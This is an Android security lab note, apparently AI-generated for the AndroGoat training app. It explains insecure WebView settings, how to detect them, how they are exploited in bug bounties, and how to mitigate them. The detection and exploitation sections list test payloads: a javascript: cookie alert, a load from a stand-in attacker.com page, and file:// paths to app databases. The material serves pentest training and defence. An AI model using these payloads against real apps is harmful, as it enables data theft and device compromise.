 ## What is WebView?

Think of **WebView** as a **mini browser engine** that Android apps can embed inside themselves.

- Normally, you open Chrome/Firefox for the web.
- With WebView, the developer can stick a little browser _inside their app_.


Example:

- When you click “Terms & Conditions” in an app and it opens inside the app instead of switching to Chrome → that’s WebView.
- It’s powered by the same rendering engine as Chrome (on newer Android), but it runs _inside the app’s sandbox_.

## How Developers Use It

A developer can tell WebView:

`webview.loadUrl("https://example.com");`

…and it will render that page.

They can also:

- Enable **JavaScript** (`setJavaScriptEnabled(true)`) → so the page can run JS.
- Allow **file access** (`setAllowFileAccess(true)`) → so WebView can open local `file://` URLs.
- Add **bridges** (`addJavascriptInterface`) → this connects JavaScript inside the page directly to Android methods in the app.
# Insecure WebView Implementation

### 📌 Scenario

- An Android app uses **WebView** to load arbitrary URLs provided by the user (or attacker-controlled input).
    
- Example code:
    
    ```java
    webSettings.setJavaScriptEnabled(true);
    webView.loadUrl(userInput);
    ```
    
- Risky configurations:
    
    - `setJavaScriptEnabled(true)` → allows execution of attacker-supplied JavaScript.
        
    - `setAllowFileAccess(true)` → enables access to `file://` URIs, which can expose local files.
        
    - `addJavascriptInterface()` → can expose Java methods to attacker-controlled JS, leading to **RCE (Remote Code Execution)**.
        
- Problem → If the app doesn’t restrict or sanitize input, attacker-controlled content runs inside the app’s WebView context. This can lead to **phishing, local file theft, or device compromise**.
    

---

### 🔍 Detection (Pentester/Bug Hunter)

Ways to detect insecure WebView usage:

1. **Static Analysis** (APK reverse engineering):
    
    - Decompile app with **JADX/APKTool**.
        
    - Search for:
        
        - `setJavaScriptEnabled(true)`
            
        - `setAllowFileAccess(true)`
            
        - `addJavascriptInterface`
            
    - Example finding:
        
        ```java
        webSettings.setJavaScriptEnabled(true);
        webSettings.setAllowFileAccess(true);
        webView.addJavascriptInterface(new JSBridge(), "Android");
        ```
        
2. **Dynamic Testing**:
    
    - Locate any screen where user input or external data is passed into WebView.
        
    - Test payloads:
        
        - `javascript:alert(1)` → confirms JS execution.
            
        - `http://attacker.com/malicious.html` → confirms arbitrary domain loading.
            
        - `file:///data/data/<app_package>/databases/aGoat` → tests local file access.
            
    - Intercept traffic with **Burp Suite** or **mitmproxy** to monitor what WebView fetches.
        
3. **Runtime Tools**:
    
    - Use **Objection/Frida** to hook into WebView APIs and confirm dangerous flags at runtime.
        
    - Example:
        
        ```bash
        frida-trace -U -n com.example.app -m "*WebView*"
        ```
        

---

### 💣 Exploitation (Attacker POV)

If attacker controls the URL loaded in WebView:

- Execute arbitrary JavaScript in the app’s context:
    
    ```javascript
    javascript:alert(document.cookie)
    ```
    
- Load attacker-controlled phishing page inside the trusted app → steal credentials.
    
- If `setAllowFileAccess(true)`:
    
    - Load local sensitive files (`file://`) and exfiltrate.
        
    - Example: `file:///data/data/com.example.app/databases/user.db`
        
- If `addJavascriptInterface()` is exposed:
    
    - Call native Java methods directly from JS → **Remote Code Execution**.
        

---

### 🎯 Bug Bounty Perspective

When reporting in a bounty:

- Don’t just say “WebView has JS enabled”.
    
- Show **how it can be abused**:
    
    - Example: _“The app allows arbitrary URLs in WebView with `setJavaScriptEnabled(true)`. By entering a malicious URL, attacker can execute JavaScript and trigger the exposed `Android` JS bridge → read contacts and files. This leads to local file theft and possible RCE.”_
        

**Severity**:

- **High/Critical** if:
    
    - File access or JS interfaces allow data exfiltration/RCE.
        
- **Medium** if:
    
    - Limited to phishing / loading arbitrary attacker-controlled pages.
        

---

### 🛡️ Mitigation

- Disable risky settings unless absolutely necessary:
    
    - `setJavaScriptEnabled(false)`
        
    - `setAllowFileAccess(false)`
        
    - `setAllowUniversalAccessFromFileURLs(false)`
        
- Never expose sensitive methods via `addJavascriptInterface`.
    
- Validate and whitelist only trusted domains/URLs before loading.
    
- Consider using **Custom Tabs** instead of raw WebView for external content.
    

---

⚡ **Quick Summary (WebView):**  
Unrestricted WebView with JavaScript/file access enabled → attacker loads malicious page → runs JS, steals files, abuses JS bridges → phishing, data theft, or RCE.

---

Do you want me to also prepare the same style write-up for **Insecure SQLite Database storage** (like your `aGoat` file in AndroGoat), so you’ll have a complete set for your lab notes?
